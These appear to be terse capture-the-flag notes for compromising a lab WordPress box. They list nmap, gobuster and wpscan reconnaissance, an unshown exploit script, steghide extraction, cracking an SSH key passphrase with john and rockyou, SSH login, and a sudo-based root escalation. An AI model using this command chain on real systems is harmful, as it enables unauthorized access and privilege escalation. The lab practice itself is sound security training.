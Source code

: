 ![](images/boxInfo.png)

## nmap
nmap -sC -sV 10.10.10.10
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-08 21:19 EDT
Nmap scan report for 10.10.10.10
Host is up (0.46s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.67 seconds
```

## gobuster
```
/root/go/bin/gobuster dir -u http://10.10.10.10/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,html -t 50
```

![](images/gobuster.png)


wpscan --url http://10.10.10.10/ --enumerate u

python exploit.py (HackerAccessGranted)

steghide extract -sf HackerAccessGranted.jpg

locate ssh2john

/usr/share/john/ssh2john.py id_rsa > takis.hash

john takis.hash --wordlist=/usr/share/wordlists/rockyou.txt (superpassword)

ssh -i id_rsa takis@10.10.10.10

sudo -l

file /bin/fuckin

cat /bin/fuckin

sudo /bin/fuckin /bin/bash

